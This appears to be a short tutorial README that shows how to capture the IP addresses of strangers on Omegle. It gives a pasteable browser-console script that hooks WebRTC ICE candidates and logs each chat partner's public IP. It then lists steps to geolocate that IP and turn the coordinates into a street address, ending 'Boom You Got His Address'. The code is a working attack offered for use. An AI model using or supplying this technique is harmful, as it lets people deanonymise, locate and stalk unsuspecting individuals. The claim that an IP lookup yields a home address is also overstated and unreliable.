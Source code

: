 ## WHAT YOU WILL NEED.

### -VPN
### -CHROME BROWSER

#### 1.Turn On The VPN and Go To Omegle.com
#### 2.Rgiht Click And Click Inspect Element
#### 3.Go To Console
#### 4.Tpye This:


`window.oRTCPeerConnection  = window.oRTCPeerConnection || window.RTCPeerConnection`

`window.RTCPeerConnection = function(...args) {`
` const pc = new window.oRTCPeerConnection(...args)`

`pc.oaddIceCandidate = pc.addIceCandidate`

`pc.addIceCandidate = function(iceCandidate, ...rest) {`
` const fields = iceCandidate.candidate.split(' ')`

`if (fields[7] === 'srflx') {`
`console.log('IP Address:', fields[4])`
`}`
`return pc.oaddIceCandidate(iceCandidate, ...rest)`

`}`

`return pc`
`}`

#### 5.Start Video/Text Chat
#### 6.on The Console You Should Se The IPs Of The Users U Chat With.
#### 7.Go To: Tools - Intelligence X {https://intelx.io/}
#### 8.Type His IP And Click Lookup
#### 9.You Should Get His Latitude &amp; Longitude
#### 10.Go To: GPS Coordinates Converter - Latitude and Longitude Converter 8
#### 11.Enter His Latitude &amp; Longitude
#### 12.Click “Get Address”
#### Boom You Got His Address

### Thank you all for your attention!

### * This Article was written by : muneebwanee (https://muneb.rf.gd)
